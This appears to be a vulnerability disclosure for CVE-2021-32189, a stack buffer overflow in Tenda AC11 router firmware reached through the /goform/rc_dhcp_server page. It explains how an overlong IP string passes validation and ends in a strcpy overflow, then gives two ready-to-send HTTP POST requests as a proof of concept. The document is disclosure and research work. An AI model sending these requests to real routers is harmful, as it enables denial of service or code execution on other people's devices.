



# Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_dhcp_server` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800C0460` (page `/goform/rc_dhcp_server`).

This function uses `strcpy` to copy the string pointed by `v2` into a stack buffer pointed by `v6`. `v2` is directly retrived from the nvram variable `lan_ipaddr` without any security check.



the `lan_ipdaddr` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v10`, which can then be used to assign to the `lan_ipaddr` variable.


If function `gstrcmp_0(v43,v10)` doesn't return zero ,and function `sub_800d4cf8` returns zero, then the nvram variable `lan_ipaddr` will be set as `v10`.

`v10` is the input vector,and `v43` is a fix string, so it's easy to make them different to make function  `gstrcmp` returns not zero.




In function `sub_800d4cf8`,if we want it returns zero,we must make `strlen(a1)` is bigger than 7,it's easy to make.And the return value of function `sub_80236d90` must be zero. 

In function `sub_800236d90` , it will do IP legitimacy check.For example,`a1` is `192.168.1.1`,and it will use function like `atoi` to make string to number.And check like `192 < 256` , `168 < 256` , `1 < 256` and so on.But it will not check the length. So we can get a very long string like `192.168.1.0000000000000000000000000000000000000000000000000000000000000000000000001` but also pass the check .And after the check,function `sub_80236d90` will give `v4` a 4-bytes ip address like `0xc0a80101`. If `a1` can pass the check, `v2` will be zero, but `a1` will not get changed and will be set in nvram variable `lan_ipaddr`. So we can make `lan_ipaddr` variable in nvram is a very long string.





So by first setting the `lan_ipaddr` and then requesting the page `/goform/rc_dhcp_server`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanIP=192.168.1.000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@Lnkvct](https://github.com/Lnkvct) , and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

## CVE ID
CVE-2021-32189